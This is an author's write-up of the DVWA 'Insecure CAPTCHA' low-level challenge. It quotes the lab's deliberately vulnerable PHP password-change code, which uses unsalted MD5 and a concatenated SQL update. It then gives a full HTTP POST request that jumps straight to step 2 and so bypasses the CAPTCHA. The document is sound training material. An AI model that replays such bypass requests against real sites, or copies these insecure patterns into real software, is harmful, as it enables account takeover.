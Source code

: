 #+TITLE: DVWA - Insecure CAPTCHA Low
#+AUTHOR: Leonardo Tamiano

* Description
  We have the ~CAPTCHA~ service provied by google. However the way it is
  implemented in the application is custom and we can work with it.

  NOTE: In my implementation I cannot seem to get the CAPTCHA working,
  because it always tell us "Invalid CAPTCHA", even though I've
  properly created a key with the google reCAPTCHA website.
  
* Solution
  The vulnerability in the first challenge is that the change password
  service is broken down in two steps.

  - In step 1 we check the CAPTCHA service

    #+begin_src php
if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) ) {
    // Hide the CAPTCHA form
    $hide_form = true;

    // Get input
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];

    // Check CAPTCHA from 3rd party
    $resp = recaptcha_check_answer(
        $_DVWA[ 'recaptcha_private_key'],
        $_POST['g-recaptcha-response']
    );

    // Did the CAPTCHA fail?
    if( !$resp ) {
        // What happens when the CAPTCHA was entered incorrectly
        $html     .= "<pre><br />The CAPTCHA was incorrect. Please try again.</pre>";
        $hide_form = false;
        return;
    }
    else {
        // CAPTCHA was correct. Do both new passwords match?
        if( $pass_new == $pass_conf ) {
            // Show next stage for the user
            echo "
                <pre><br />You passed the CAPTCHA! Click the button to confirm your changes.<br /></pre>
                <form action=\"#\" method=\"POST\">
                    <input type=\"hidden\" name=\"step\" value=\"2\" />
                    <input type=\"hidden\" name=\"password_new\" value=\"{$pass_new}\" />
                    <input type=\"hidden\" name=\"password_conf\" value=\"{$pass_conf}\" />
                    <input type=\"submit\" name=\"Change\" value=\"Change\" />
                </form>";
        }
        else {
            // Both new passwords do not match.
            $html     .= "<pre>Both passwords must match.</pre>";
            $hide_form = false;
        }
    }
}
    #+end_src

  - In step 2 we actually change the password

    #+begin_src php
if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '2' ) ) {
    // Hide the CAPTCHA form
    $hide_form = true;

    // Get input
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];

    // Check to see if both password match
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the end user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with the passwords matching
        echo "<pre>Passwords did not match.</pre>";
        $hide_form = false;
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
    #+end_src

  By forcing this second step directly by using the proper URL params,
  we're able to bypass altogether the CAPTCHA service. The request to
  send is the following, a POST request with ~step=2&Change=Change~ as
  parameters

  #+begin_example
POST /vulnerabilities/captcha/ HTTP/1.1
Host: evil
Content-Length: 57
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/captcha/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=j7f5mt685vjonmnvrt6mij8t50; security=low
Connection: close

step=2&password_new=test&password_conf=test&Change=Change
  #+end_example
